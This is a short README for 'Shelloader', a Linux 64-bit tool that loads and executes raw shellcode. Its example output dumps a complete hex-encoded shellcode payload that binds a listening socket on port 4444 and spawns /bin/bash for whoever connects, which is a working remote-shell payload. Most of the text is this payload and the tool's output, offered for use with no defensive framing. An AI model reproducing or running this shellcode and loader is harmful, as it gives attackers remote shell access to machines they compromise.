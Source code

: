 Shelloader
===========

Linux 64-Bit mmap based shellcode loader.

Example usage with remoteshell shellcode
-----------------------------------------

[rj@localhost shelloader]$ ./shelloader shell.o
Linux 64-Bit mmap based shellcode loader by Travis "rjkall".
[*] Examining shell.o...
[*] EI_MAG0 = 0x7f, continuing...
[*] Found .text section at address 0x00000040 with length of 146 bytes
[*] Dumping shellcode...
\x55\x48\x89\xe5\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc1\x48\x83\xec\x10\x66\xc7\x45\xf2\x11\x5c\xbe\x80\xff\xff\xfe\xf7\xd6\x89\x75\xf4\xc6\x45\xf0\x02\x4c\x89\xcf\x48\x8d\x75\xf0\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x4c\x89\xcf\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x83\xec\x10\x4c\x89\xcf\x48\x8d\x75\xf0\x6a\x10\x54\x5a\x6a\x2b\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x48\x83\xfe\x03\x7d\x0d\x4c\x89\xc7\x6a\x21\x58\x0f\x05\x48\xff\xc6\xeb\xed\x48\xb8\x2f\x62\x69\x6e\x2f\x62\x61\x73\x48\xc1\xe8\x08\x50\x54\x5f\x6a\x3b\x58\x0f\x05\x48\x31\xff\x6a\x3c\x58\x0f\x05
[*] Executing shellcode...


